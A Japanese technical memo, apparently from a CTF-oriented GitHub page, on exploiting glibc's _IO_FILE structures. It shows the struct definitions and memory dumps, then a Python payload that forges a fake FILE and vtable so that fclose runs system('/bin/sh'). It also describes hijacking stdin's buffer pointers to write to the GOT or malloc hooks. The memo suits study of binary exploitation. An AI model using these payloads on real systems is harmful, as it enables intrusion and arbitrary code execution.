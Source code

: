 ファイル・ポインタや標準入出力に関連する_IO_FILE構造体を利用したexploitテクニックのメモ。

# _IO_FILE構造体とその関連

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの構造体の定義とメモリーダンプ。

* _IO_FILE
```
struct _IO_FILE {
  int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

```

* _IO_FILE_plus
```
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

* _IO_jump_t
```
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの繋がりはこの図が分かり易い。
![glibc-file-vtable](https://user-images.githubusercontent.com/9530961/39658505-3ae004b0-5050-11e8-9826-0ba092a002fd.png)

メモリー上にどのように展開されているか理解しておく。

* stdoutの_IO_FILEメモリーダンプ
```
0x7ffff7dd4400 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd4483 flags / _IO_read_ptr
0x7ffff7dd4410 <_IO_2_1_stdout_+16>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_read_end / _IO_read_base
0x7ffff7dd4420 <_IO_2_1_stdout_+32>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_base / _IO_write_ptr
0x7ffff7dd4430 <_IO_2_1_stdout_+48>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_end / _IO_buf_base
0x7ffff7dd4440 <_IO_2_1_stdout_+64>:	0x00007ffff7dd4484	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4450 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000 _IO_backup_base / _IO_save_end
0x7ffff7dd4460 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd4640 *_markers / *_chain 次の_IO_FILE structへのポインタ
0x7ffff7dd4470 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff _fileno / ?
0x7ffff7dd4480 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd59e0 ? / *_lock
0x7ffff7dd4490 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000 
0x7ffff7dd44a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd44e0	0x0000000000000000
0x7ffff7dd44b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd44c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd44d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd26a0 _IO_jump_tへのポインタ
```

* _IO_jump_tのメモリダンプ
```
0x7ffff7dd26a0 <_IO_file_jumps>:	0x0000000000000000	0x0000000000000000 __dummy / __dummy2
0x7ffff7dd26b0 <_IO_file_jumps+16>:	0x00007ffff7a8ac80	0x00007ffff7a8b6d0 
0x7ffff7dd26c0 <_IO_file_jumps+32>:	0x00007ffff7a8b480	0x00007ffff7a8c530
0x7ffff7dd26d0 <_IO_file_jumps+48>:	0x00007ffff7a8d6e0	0x00007ffff7a8a500
0x7ffff7dd26e0 <_IO_file_jumps+64>:	0x00007ffff7a8a210	0x00007ffff7a89870
0x7ffff7dd26f0 <_IO_file_jumps+80>:	0x00007ffff7a8caa0	0x00007ffff7a897e0
0x7ffff7dd2700 <_IO_file_jumps+96>:	0x00007ffff7a89710	0x00007ffff7a7e7b0
0x7ffff7dd2710 <_IO_file_jumps+112>:	0x00007ffff7a8a4e0	0x00007ffff7a89ed0
0x7ffff7dd2720 <_IO_file_jumps+128>:	0x00007ffff7a89cd0	0x00007ffff7a897d0
0x7ffff7dd2730 <_IO_file_jumps+144>:	0x00007ffff7a89ec0	0x00007ffff7a8d840
0x7ffff7dd2740 <_IO_file_jumps+160>:	0x00007ffff7a8d850	0x0000000000000000
```



# Exploit
* fpを上書きできる場合、_IO_FILEを偽装し、_IO_jump_tに任意の関数を仕込んでおくにより、fclose(fp)などが呼ばれた時にその関数を実行できる

下の例では、system("/bin/sh")が実行される。なお_IO_FILEのflagsに第一引数（この場合は"/bin/sh¥0"）をセットしておくことが可能。

```
    # fake _IO_FILE
    buf += "/bin/sh\0"
    buf += p(0)*16
    buf += p(0x0000000000602000) # *_lock: any address may work
    buf += p(0)*9
    buf += p(fp_addr+len(buf)+8) # _IO_file_jumps addr
    # fake _IO_file_jumps
    buf += p(0)*2
    buf += p(system)*19
```

* stdinの_IO_buf_baseと_IO_buf_endを上書きできる場合、scanf/fgets/gets等の書き込み先をコントロールできる。

下の例だと0x62000に任意のデータを書き込める。書き込み先をGOTやfree_hook/malloc_hookにしておくことにより、one gadget rceなどを仕込むことができる。

```
0x7ffff7dd4640 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007ffff7dd46c3
0x7ffff7dd4650 <_IO_2_1_stdin_+16>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4660 <_IO_2_1_stdin_+32>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4670 <_IO_2_1_stdin_+48>:	0x00007ffff7dd46c3	0x0000000000602000 _IO_write_end / _IO_buf_base
0x7ffff7dd4680 <_IO_2_1_stdin_+64>:	0x0000000000602100	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4690 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46a0 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46b0 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffff7dd46c0 <_IO_2_1_stdin_+128>:	0x0000000000000000	0x00007ffff7dd59f0
0x7ffff7dd46d0 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd46e0 <_IO_2_1_stdin_+160>:	0x00007ffff7dd4720	0x0000000000000000
0x7ffff7dd46f0 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4700 <_IO_2_1_stdin_+192>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4710 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffff7dd26a0
```

# 参考
* Play with FILE Structure - Yet Another Binary Exploit Technique https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
* abusing the FILE structure https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/
